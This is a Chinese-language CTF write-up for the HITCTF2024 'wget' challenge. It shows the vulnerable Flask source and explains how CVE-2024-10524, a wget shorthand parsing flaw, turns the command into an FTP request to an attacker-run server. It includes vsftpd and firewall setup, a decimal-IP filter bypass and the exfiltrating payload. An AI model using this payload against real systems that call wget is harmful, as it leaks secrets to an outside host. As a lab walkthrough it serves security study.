




# HITCTF2024 wget wp-先知社区

> **来源**: https://xz.aliyun.com/news/16123  
> **文章ID**: 16123

---

# HITCTF2024 wget wp

## 题目源码

```
from flask import Flask, request, render_template, jsonify
import subprocess
import os
import base64

app = Flask(__name__)

FLAG = os.getenv("FLAG", "flag{}")
flag_base64 = base64.urlsafe_b64encode(FLAG.encode()).decode()

@app.route("/")
def index():
    with open(__file__, "r") as file:
        source_code = file.read()
    return source_code

@app.route("/execute", methods=["POST"])
def execute():
    auth = request.form.get("auth")
    if not auth:
        return jsonify({"error": "auth is required"}), 401
    if any(char in "`!@#$%&*()-=+;.[]{}<>\\|;'\"?/" for char in auth):
        return jsonify({"error": "Hacker!"}), 400
    try:
        command = ["wget", f"{auth}@127.0.0.1:5000/{flag_base64}"]
        subprocess.run(command, check=True)
        return jsonify({"message": "Command executed successfully"})
    except Exception as e:
        return jsonify({"error": "Command failed"}), 500

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)

```

## cve-2024-10524

[Protect your Software from the Zero Day Wget Vulnerability](https://jfrog.com/blog/cve-2024-10524-wget-zero-day-vulnerability/)

利用的是一个wget的速记漏洞，如果尝试`wget aaa:bbb@ccc`，wget会自动将其解释为`ftp://aaa/bbb@ccc`（其中bbb@ccc会被识别为一个目录名）。

这道题刚好没有ban掉冒号，就可以利用这个cve来打，注意到这条代码：

```
command = ["wget", f"{auth}@127.0.0.1:5000/{flag_base64}"]
subprocess.run(command, check=True)

```

## 利用方式

首先在我们的云服务器上起一个ftp服务。

```
sudo apt install vsftpd
sudo systemctl start vsftpd
sudo systemctl enable vsftpd

```

然后在配置文件`/etc/vsftpd.conf`里，修改如下配置

```
# 允许匿名用户访问
anonymous_enable=YES
#匿名用户默认访问位置（默认应该是在/var/ftp/pub的，但是总有权限问题，777也不行，移到/home意外就可以了）
anon_root=/home
#匿名用户不需要输入密码
no_anon_password=YES
# 日志记录
xferlog_enable=YES
xferlog_file=/var/log/vsftpd.log
xferlog_std_format=YES
# 启用详细日志记录，才能完整获取到请求的完整内容
log_ftp_protocol=YES
dual_log_enable=YES
vsftpd_log_file=/var/log/vsftpd.log

```

配置ufw和iptables

```
sudo ufw allow 20/tcp
sudo ufw allow 21/tcp
sudo ufw allow 10000:10100/tcp
sudo ufw reload
# 允许FTP控制连接（端口21）
sudo iptables -A INPUT -p tcp --dport 21 -j ACCEPT
# 允许FTP数据连接（端口20）
sudo iptables -A INPUT -p tcp --dport 20 -j ACCEPT
# 允许被动模式端口范围（10000-10100）
sudo iptables -A INPUT -p tcp --dport 10000:10100 -j ACCEPT
# 允许相关和已建立的连接
sudo iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
# sudo apt install iptables-persistent
sudo netfilter-persistent save

```

全部完成后，重启vsftpd服务，以使更改生效：

```
sudo systemctl restart vsftpd
#sudo systemctl status vsftpd 看看，如果报错了可能是配置改错了

```

开启你服务器的21，22端口

配置好以后用本地的文件资源管理器访问`ftp://你的云服务器IP`，可以匿名访问你的`/home`下的文件夹就是成功（前面配置可能有冗余或者不足，反正能做到这一步就可以）



（web手的测试服务器尽量别放什么重要的东西，因为做题经常要解除一些安全措施）

由于ban掉了`.`，所以需要把我们服务器的ip改成十进制来绕过，可以用这个在线网站转换一下[在线网络计算器 | TCP/IP子网掩码计算换算-BeJSON.com](https://www.bejson.com/network/newsubnetmask/)换成形如`2130706433`的形式  


然后在你的/home目录下创建一个文件夹`kkkkk@127.0.0.1:5000`，以防止没有这个目录导致跳转失败，后续内容不再接收。



最后payload就是`你的服务器的IP的十进制:kkkkk`

```
command = ["wget", f"{auth}@127.0.0.1:5000/{flag_base64}"]
subprocess.run(command, check=True)

```

服务器会把它解释为`wget ftp://2130706433/kkkkk@127.0.0.1:5000/flag_base64`，就会错误的访问到我们的服务器。

执行好以后查看本地日志`cat /var/log/vsftpd.log`，就可以获得靶机的访问记录，得到flag：


